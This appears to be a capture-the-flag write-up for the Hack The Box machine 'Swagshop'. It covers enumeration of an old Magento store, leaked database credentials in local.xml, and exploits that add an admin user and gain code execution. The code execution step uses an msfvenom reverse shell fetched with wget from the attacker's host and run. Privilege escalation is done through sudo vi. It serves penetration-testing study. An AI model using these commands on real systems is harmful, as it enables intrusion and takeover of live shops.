







# Summary


## about target

tip:  10.129.7.65

hostname: Swagshop

Difficulty:  Easy


## about attack

+ Magento scan, github; enum version and vulns
+ python scripts exploit, read the script and try more.


**attack note**

```bash
Swagshop / 10.129.5.209

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/


----http enum

http://swagshop.htb/app/etc/local.xml

-- db connect creds.
root/fMVWh7bDHpgZkyfqQXreTjU9
admin, 

<crypt>
<key>b355a9e0cd018d3f7f03607141518419</key>
</crypt>

<connection>
<host>localhost</host>
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
<initStatements>SET NAMES utf8</initStatements>
<model>mysql4</model>
<type>pdo_mysql</type>
<pdoType></pdoType>
<active>1</active>
</connection>

-- redis info
http://swagshop.htb/app/etc/local.xml.additional

-- mega admin
http://swagshop.htb/app/code/core/Mage/Admin/etc/config.xml

<modules>
<Mage_Admin>
<version>1.6.1.1</version>
</Mage_Admin>

megento scan
https://github.com/steverobbins/magescan

php magescan.phar scan:all swagshop.htb

-- megento exploit
https://github.com/ambionics/magento-exploits/blob/master/magento-sqli.py
https://www.exploit-db.com/exploits/38573
https://www.exploit-db.com/exploits/37977


---- exploit 


msfvenom -p linux/x64/shell_reverse_tcp LHOST=$kip LPORT=9001 -f elf > 9001

python 37811.py http://swagshop.htb/index.php/admin/ "wget http://10.10.14.78/9001 -O /tmp/9001;chmod +x /tmp/9001;/tmp/9001"

python3 -c 'import pty; pty.spawn("/bin/bash")'


sudo /usr/bin/vi /var/www/html/api.php
:shell

```


# Enumeration

## nmap scan

light scan

```bash
nmap -p- --min-rate=1000 -T4 -oN nmap.light $tip


```


Heavy scan

```bash
export port=$(cat nmap.light | grep ^[0-9] | cut -d "/" -f 1 | tr "\n" "," | sed s/,$//)
sudo nmap -A -O -p$port -sC -sV -T4 -oN nmap.heavy $tip

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 b6552bd24e8fa3817261379a12f624ec (RSA)
|   256 2e30007a92f0893059c17756ad51c0ba (ECDSA)
|_  256 4c50d5f270c5fdc4b2f0bc4220326434 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Did not follow redirect to http://swagshop.htb/
```


## http enum

dir scan

```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -u http://swagshop.htb  -o gobuster.log -x php,txt
```

insteresting info, no version found.

```bash
----http enum

http://swagshop.htb/app/etc/local.xml

-- db connect creds.
root/fMVWh7bDHpgZkyfqQXreTjU9
admin, 

<crypt>
<key>b355a9e0cd018d3f7f03607141518419</key>
</crypt>

<connection>
<host>localhost</host>
<username>root</username>
<password>fMVWh7bDHpgZkyfqQXreTjU9</password>
<dbname>swagshop</dbname>
<initStatements>SET NAMES utf8</initStatements>
<model>mysql4</model>
<type>pdo_mysql</type>
<pdoType></pdoType>
<active>1</active>
</connection>

-- redis info
http://swagshop.htb/app/etc/local.xml.additional

-- mega admin
http://swagshop.htb/app/code/core/Mage/Admin/etc/config.xml

<modules>
<Mage_Admin>
<version>1.6.1.1</version>
</Mage_Admin>
```


Magento scan, https://github.com/steverobbins/magescan

```bash
php magescan.phar scan:all swagshop.htb
```

found version.



search exploit.



# Exploitation

exploit, add admin user. 

change the url, default path /index.php

```bash
target = "http://swagshop.htb/index.php"
```




```bash
python 37977.py
```

user added, forme:forme




exploit, 37811;

change the username and password.

```bash
username = 'forme'
password = 'forme'

msfvenom -p linux/x64/shell_reverse_tcp LHOST=$kip LPORT=9001 -f elf > 9001
python 37811.py http://swagshop.htb/index.php/admin/ "wget http://10.10.14.78/9001 -O /tmp/9001;chmod +x /tmp/9001;/tmp/9001"
```





# Privesc


## local enum

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'

sudo -l
```





## System

exploit, sudo vi.

```bash
sudo /usr/bin/vi /var/www/html/api.php
:shell
```





## proof

```bash


```


